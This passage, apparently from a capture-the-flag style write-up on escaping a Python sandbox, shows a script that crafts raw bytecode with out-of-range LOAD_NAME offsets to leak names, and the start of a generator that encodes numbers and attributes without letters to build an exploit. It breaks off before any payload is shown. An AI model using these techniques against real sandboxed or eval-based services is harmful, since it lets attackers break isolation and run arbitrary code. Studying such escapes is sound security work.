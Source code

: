 First here is a script for us to find those offsets of names.

```python
from types import CodeType
from opcode import opmap
from sys import argv


class MockBuiltins(dict):
    def __getitem__(self, k):
        if type(k) == str:
            return k


if __name__ == '__main__':
    n = int(argv[1])

    code = [
        *([opmap['EXTENDED_ARG'], n // 256]
          if n // 256 != 0 else []),
        opmap['LOAD_NAME'], n % 256,
        opmap['RETURN_VALUE'], 0
    ]

    c = CodeType(
        0, 0, 0, 0, 0, 0,
        bytes(code),
        (), (), (), '<sandbox>', '<eval>', 0, b'', ()
    )

    ret = eval(c, {'__builtins__': MockBuiltins()})
    if ret:
        print(f'{n}: {ret}')

# for i in $(seq 0 10000); do python find.py $i ; done1234567891011121314151617181920212223242526272829303132
```

And the following is for generating the real Python exploit.

```python
import sys
import unicodedata


class Generator:
    # get numner
    def __call__(self, num):
        if num == 0:
            return '(not[[]])'
        return '(' + ('(not[])+' * num)[:-1] + ')'

    # get string
    def __getattribute__(self, name):
        try:
            offset = None.__dir__().index(name)
            return f'keys[{self(offset)}]'
        except ValueError:
            offset = None.__class__.__dir__(None.__class__).index(name)
            return f'keys2[{self(offset)}]'


_ = Generator()

names = []
```